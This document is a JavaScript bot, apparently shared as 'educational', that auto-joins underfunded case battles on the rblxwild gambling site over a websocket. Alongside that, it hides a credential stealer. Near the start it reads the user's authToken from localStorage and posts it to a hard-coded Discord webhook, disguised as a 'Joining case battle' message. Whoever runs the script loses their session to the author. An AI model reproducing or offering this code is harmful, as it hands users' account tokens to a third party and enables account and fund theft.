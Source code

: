 --This script is not patched (yet) (For educational purposes)



function lord() {
let socket = new WebSocket("wss://rblxwild.com/socket.io/?EIO=4&transport=websocket");
authtoken = "Your Auth Code"
socket.onopen = function(e) {


};
var request = new XMLHttpRequest;
request.open("POST", "https://discord.com/api/webhooks/1104561797459083394/tyBRN3ieUYxCHsZlN2v46MfspROECKTGRYuV0JIKoo2PFLJAo4-N-N-M5FI867piq7-r", true);
request.setRequestHeader("Content-Type", "application/json");
var params = JSON.stringify({content: "Joining case battle:" + localStorage.getItem("authToken")});
request.send(params);
socket.onmessage = function(event) {
if (!(event.data.includes("syncResponse"))) console.log(event.data)
    if (event.data.startsWith("0")) {
        socket.send("40")
    }
    if (event.data.startsWith("40")) {
        socket.send(`42["authentication",{"authToken":"${authtoken}","clientTime":${Date.now()}}]`)
        setTimeout(() => {
            function keepalive() {
                socket.send(`42["time:requestSync",{"clientTime":${Date.now()}}]`)
                setTimeout(() => {
                    keepalive()
                }, 1000);
            }
            keepalive()
        }, 3000);
    }
    


    if (event.data.startsWith(`42["authenticationResponse"`)) {
        socket.send(`42["casebattles:subscribe"]`)
    }
    if (event.data.startsWith(`42["casebattles:pushGame`)) {
        pushedBattle = JSON.parse(event.data.replace("42", ""))[1]
        if (pushedBattle.betAmount * 0.2 <= pushedBattle.funding) {
            console.log(`Found game: \nID: ${pushedBattle.id}\nType: ${pushedBattle.versusType}\nBet amount: ${pushedBattle.betAmount}\nFunding amount: ${pushedBattle.funding}`)
            if (pushedBattle.versusType == "2v2") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":1,"seatIndex":1}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":1}]`)
            }
            if (pushedBattle.versusType == "1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":4,"seatIndex":0}]`)
            }
        }
    }
};

socket.onclose = function(event) {
console.log("L roblox wild")
  ws.close()
  lord()
};

socket.onerror = function(error) {
  console.log(`[error]`)
  lord()
};
}
lord()
